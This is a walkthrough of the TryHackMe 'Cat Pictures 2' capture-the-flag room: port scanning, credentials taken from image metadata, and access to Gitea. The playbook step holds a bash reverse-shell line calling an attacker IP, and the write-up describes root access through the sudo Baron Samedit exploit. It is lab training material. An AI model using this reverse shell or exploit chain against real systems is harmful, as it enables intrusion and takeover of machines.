 Cat Pictures 2 Writeup :-
copycat  1


This is a walkthrough of the Cat Pictures 2 CTF from TryHackMe. The room can be accessed here.

Recon
I started by running an Nmap scan to identify open ports on the target machine:

nmap -sV -sC -p- <#TARGETIP> -o nmap
The scan revealed the following open ports:

22 - OpenSSH 7.6p1
80 - Nginx 1.4.6 (Lychee version 3.1.1 photo album with cat pictures)
222 - OpenSSH 9.0 (Unusual port)
1337 - OliveTin (Web interface to run predefined shell commands)
3000 - Gitea (Lightweight DevOps platform)
8080 - Nginx default webpage (Possibly with subdirectories)



Web Pages
I began exploring the web applications hosted on different ports:

Port 80: Found a Lychee photo album with cat pictures. App Screenshot

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/d2051fdc-db05-4bf4-9f99-d06dd6d542f4)

Port 1337: Discovered OliveTin, a web interface to execute scripts and run Ansible Playbooks.

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/093190b3-7acb-4dba-82d7-41771ec4aeeb)


Port 3000: Accessed Gitea, a platform that might be hosting scripts and runbooks.

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/207f713a-da48-4047-80f4-a0609e988d6e)


Port 8080: Default Nginx webpage, further inspection may reveal subdirectories.

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/c179008c-b9a3-40d4-9be8-6fd9f28c8072)


After running gobuster and checking for vulnerabilities, nothing significant was found. So, I focused on the cat pictures hosted on port 80.

Cat Pictures Analysis
I downloaded all the cat pictures and checked them for exif data using exiftool. One picture revealed interesting information of a text file on a subdomain of one of the web applications:

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/c91f7af5-edac-44ba-bade-f88f2c3b6dff)



Visiting the URL led me to a text file with the following information:

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/ab49ed38-a550-43f6-b7e5-bf3998e428e7)


I managed to gain access to the website with the credentials from the text file and explored the user's repository, where I found flag1.txt (1/3 flags).

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/aa2c518c-8143-4cf9-b9d2-149811346e10)



Ansible Playbook
Next, I inspected the playbook.yaml file and noticed it contains a shell command: shell: echo hi.

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/5db2eec5-7414-4daa-901d-3fac4be9fb8b)


Knowing that OliveTin on port 1337 allows running Ansible Playbooks, I replaced the command with simple bash reverse shell payload from RevShells.com.

bash -i >& /dev/tcp/<#ATTACKERIP>/<#ATTACKERPORT> 0>&1
Setting up a NetCat listener and clicking "Run Ansible Playbook" triggered the payload, which gave me a shell on the box. Exploring the user directory file gave me another text file named flag2.txt (2/3 flags).

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/92e09b2a-92f4-447f-a4c4-29a5d40e2e76)


Privilege Escalation
With a reverse shell on the target machine, I looked around for interesting files and uploaded linpeas.sh to find vulnerabilities. One stood out: [CVE-2021-3156] sudo Baron Samedit.

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/f2c7c2eb-21c7-460c-899e-b0cff63c0a04)


To exploit this, I downloaded the exploit, uploaded it to the target machine, compiled it with make, and executed the ./sudo-hax-me-a-sandwich outfile to gain root access.

![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/5a436b51-10a6-417d-ac50-6054beea73df)


From here, I moved to the /root file directory and found the flag3.txt (3/3 flags).

Thanks for checking out my writeup! Feel free to reach out with any questions or comments.
